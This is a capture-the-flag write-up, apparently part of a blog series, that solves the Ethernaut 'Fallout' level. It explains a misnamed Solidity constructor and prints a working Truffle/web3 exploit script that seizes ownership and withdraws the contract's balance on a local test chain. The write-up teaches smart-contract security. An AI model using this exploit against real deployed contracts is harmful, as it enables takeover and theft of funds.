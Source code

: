 Title: Solving Zeppelin's Ethernaut CTF - Fallout
Date: 2018-06-01 10:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-fallout
Summary: Third post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In this one, we solve the second challenge: Fallback.

## Introduction
While in the [Introduction](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-intro/) of this series we setup the environment with Ganache-cli and Truffle, in the [second article](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/) we walked through deploying our first smart contract, the basics of Solidity and Web3 and finally found a way to become the owners of the Fallback contract, thus passing the first challenge. Now, we will solve the second one: [Fallout](https://ethernaut.zeppelin.solutions/level/0x220beee334f1c1f8078352d88bcc4e6165b792f6).

## The Fallout contract
Take a moment to *thoroughly* look at the contract's source code and try to find what is wrong with it.

Need a hint ? Remember what we talked [about contract's constructors](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#constructors).

Not quite there yet ? Observe the contract's name and the name of the *constructor*. Any difference ?
~~~solidity
contract Fallout is Ownable {
    ...
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
    ...
}
~~~

Yeap, there it is. Fallout is not the same as Fal1out, which means: **Fallout does not have a constructor**. The function that was intended to be the contract's constructor is actually a regular **public** function that can be called by anyone, since its name does not match the contract's name.

Having discovered that, all we have to do now in order to become the owners of the contract (i.e. pass the challenge) is simply call the Fal1out function.

## Solving Fallout
Just follow this simple steps:

1. Start ganache-cli
2. Deploy the Fallout contract with Truffle
3. Write and execute exploit

Since steps 1 & 2 were covered in the [previous article](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#deploying-your-first-smart-contract), let's skip those here and move on to the fun stuff: exploiting the contract.

First, as you can see below, the structure of the exploit remains the same as in Fallback. We get the attacker account, an instance of the deployed vulnerable contract and check its owner.

~~~javascript
const FalloutContract = artifacts.require('Fallout')
const assert = require('assert')

async function execute(callback) {
    // Get attacker account
    let attacker = web3.eth.accounts[1]
    console.log(`Attacker address: ${attacker}`)

    // Instance vulnerable contract
    let contract = await FalloutContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    assert.equal(contractOwner, web3.eth.accounts[0])
    console.log(`Contract owner: ${contractOwner}`)

    //[...]

    callback()
}
module.exports = execute
~~~

Once done with that, we need to call the Fal1out function and assert the attacker has become the owner:
~~~javascript
await contract.Fal1out({
    from: attacker,
    value: web3.toWei(0.0009, 'ether')
})

// Check who's the owner now (:
contractOwner = await contract.owner.call()
assert.equal(contractOwner, attacker)
console.log(`Contract owner: ${contractOwner}`)
~~~

Excellent! As owners, we can withdraw the entire balance of the contract.
~~~javascript
// Withdraw all money
let response = await contract.collectAllocations({
    from: attacker
})
console.log(`Withdrew all allocations in transaction ${response.tx}`)
~~~

Aaand, challenge completed. That wasn't so hard, right ?

Find the entire [exploit code of the Fallout contract at my GitHub repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/fallout.exploit.js).

If you enjoyed this challenge, stay tuned! In the next post we will dive into the problems of randomness in the Ethereum blockchain with the next challenge: [Coin Flip](https://ethernaut.zeppelin.solutions/level/0xd340de695bbc39e72df800dfde78a20d2ed94035).
